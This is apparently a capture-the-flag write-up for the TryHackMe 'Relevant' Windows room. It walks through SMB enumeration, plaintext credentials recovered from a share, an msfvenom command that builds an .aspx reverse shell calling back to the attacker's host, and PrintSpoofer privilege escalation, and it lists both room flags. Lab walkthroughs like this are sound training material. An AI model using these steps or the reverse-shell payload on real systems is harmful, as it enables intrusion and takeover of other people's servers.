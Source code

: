 # Relevant [relevant.thm]
> edit /etc/hosts file to set the ip to hostname


## recon

- nmap scan
	- scanned all `-p-`
	- found __80,135,139,445,3389,49663,49667,49669__ open ports out of which _80, 49663_ runs _http_
	- os: ` Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)`
	- seems like we can get guest/user privileges through __smb__

- on visiting port 80 (via browser) found this:
![windows server webpage](./imgs/windows_server.png)

<br>

## hacking

- browsing smb via __smbclient__ (`smbclient -L 10.10.240.89 -U guest` > prompted password > enter blank):
> how to use [reference](https://unix.stackexchange.com/questions/339536/is-it-possible-to-browse-samba-resources-in-command-line)
![list of shared foldars over SMB](./imgs/smb_log0.png)

- didn't have access to `ADMIN$` and `C$`, then got access to `IPC$` but nothing there
![smb got access to `IPC$` foldar](./imgs/smb_log1.png)

- checked the last _shared foldar_ `nt4wrksv` (`smbclient //10.10.240.89/nt4wrksv -U guest`), & found `passwords.txt` file (downloaded using `mget`)
![found `passwords.txt` in _shared foldar_ `nt4wrksv`](./imgs/smb_log2.png)

- file contains credentials encoded in base64
![base64 encoded user & password decoded](./imgs/pwd_decoded.png)
	- found two users (& their passwords)
	- `Bob - !P@$$W0rD!123` & `Bill - Juw4nnaM4n420696969!$$$`

- on p49663 we can access _passwords.txt_, found `nt4wrksv` from gobuster scan
![access shared foldar via browser](./imgs/via_web.png)
	- `http://10.10.191.233:49663/nt4wrksv/passwords.txt`)

- created `.aspx` reverse shell (`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.18.116.142 lport=443 -f aspx > relevant.aspx`)
![creation of `.aspx` with `msfvenom`](./imgs/revshell.png)

- uploaded reverse shell via smb
![upload rev shell via smb](./imgs/upload_rs.png)

- visit `http://10.10.191.233:49663/nt4wrksv/relevant.aspx`
- got initial access to the system
![access system shell](./imgs/initial_access.png)

- got `THM{fdk4ka34vk346ksxfr21tg789ktf45}` in `c:\Users\Bob\Desktop\user.txt`

- testing `whoami /priv`
![windows privesc](./imgs/win_privesc1.png)

- seems like the `SeImpersonatePrivilege` is weak/vuln
- upload [nc.exe](https://github.com/int0x33/nc.exe/) to get back root shell
- upload [printspoofer.exe](https://github.com/dievus/printspoofer) get higher priv
- setup listener `nc -lnvp 443` & execute `c:\inetpub\wwwroot\nt4wrksv\PrintSpoofer.exe -i -c cmd`
![got admin access](got_admin.png)

- got _NT Autority_ (windows root equivalent)

- got `THM{1fk5kf469devly1gl320zafgl345pv}` in `c:\Users\Administrator\Desktop\root.txt`








